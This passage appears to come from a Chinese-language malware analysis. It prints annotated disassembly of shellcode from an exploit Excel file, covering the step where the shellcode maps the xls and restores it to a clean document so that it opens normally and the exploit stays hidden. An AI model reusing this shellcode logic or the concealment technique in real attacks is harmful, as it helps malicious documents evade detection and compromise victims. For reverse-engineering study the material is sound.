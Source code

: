     047C0A7B 46 inc esi
    047C0A7C 3B75 F0 cmp esi, dword ptr [ebp-10]
    047C0A7F ^ 7C CA jl short 047C0A4B
    047C0A81 61 popad
读出exe以后有漏洞的xls就没用，要把xls文件恢复成正常文件，一方面为了后面能够正常打开，另一方面也为了能够隐藏漏洞：

    047C0AA7 6A 00 push 0
    047C0AA9 6A 00 push 0
    047C0AAB 6A 00 push 0
    047C0AAD 6A 04 push 4
    047C0AAF 6A 00 push 0
    047C0AB1 FF75 0C push dword ptr [ebp+C]
    047C0AB4 6A 06 push 6
    047C0AB6 FFB7 60020000 push dword ptr [edi+260]
    047C0ABC FF97 C0020000 call dword ptr [edi+2C0] ;CreateFileMapping映射xls文件
    047C0AC2 83C4 20 add esp, 20
    047C0AC5 85C0 test eax, eax
    047C0AC7 0F84 92000000 je 047C0B5F
    047C0ACD 6A 00 push 0
    047C0ACF 6A 00 push 0
    047C0AD1 6A 00 push 0
    047C0AD3 6A 06 push 6
    047C0AD5 50 push eax
    047C0AD6 6A 05 push 5
    047C0AD8 FFB7 90020000 push dword ptr [edi+290]
    047C0ADE FF97 C0020000 call dword ptr [edi+2C0] ; MapViewofFile
    047C0AE4 83C4 1C add esp, 1C
    047C0AE7 85C0 test eax, eax
    047C0AE9 74 74 je short 047C0B5F
    047C0AEB 8945 FC mov dword ptr [ebp-4], eax
    047C0AEE 8D5D F8 lea ebx, dword ptr [ebp-8]
    047C0AF1 53 push ebx
    047C0AF2 68 00020000 push 200
    047C0AF7 8D9D F8FBFFFF lea ebx, dword ptr [ebp-408]
    047C0AFD 53 push ebx
    047C0AFE 6A 02 push 2
    047C0B00 50 push eax
    047C0B01 6A FF push -1
    047C0B03 6A 06 push 6
    047C0B05 FFB7 9C020000 push dword ptr [edi+29C]
    047C0B0B FF97 C0020000 call dword ptr [edi+2C0] ;ntdll.ZwQueryVirtualMemory
    047C0B11 83C4 20 add esp, 20
    047C0B14 83F8 00 cmp eax, 0
    047C0B17 75 46 jnz short 047C0B5F
    047C0B19 6A 00 push 0
    047C0B1B 6A 00 push 0
    047C0B1D 68 04010000 push 104
    047C0B22 FF75 18 push dword ptr [ebp+18]
    047C0B25 6A FF push -1
    047C0B27 8D85 F8FBFFFF lea eax, dword ptr [ebp-408]
    047C0B2D 83C0 08 add eax, 8
    047C0B30 50 push eax
    047C0B31 6A 00 push 0
    047C0B33 6A 00 push 0
    047C0B35 6A 08 push 8
    047C0B37 FFB7 94020000 push dword ptr [edi+294]
    047C0B3D FF97 C0020000 call dword ptr [edi+2C0] ; WideCharToMultiByte
    047C0B43 83C4 40 add esp, 40
    047C0B46 0345 18 add eax, dword ptr [ebp+18]
    047C0B49 48 dec eax
    047C0B4A 66:C700 2200 mov word ptr [eax], 22
    047C0B4F 8B4D 14 mov ecx, dword ptr [ebp+14]
    047C0B52 83F9 00 cmp ecx, 0
    047C0B55 74 08 je short 047C0B5F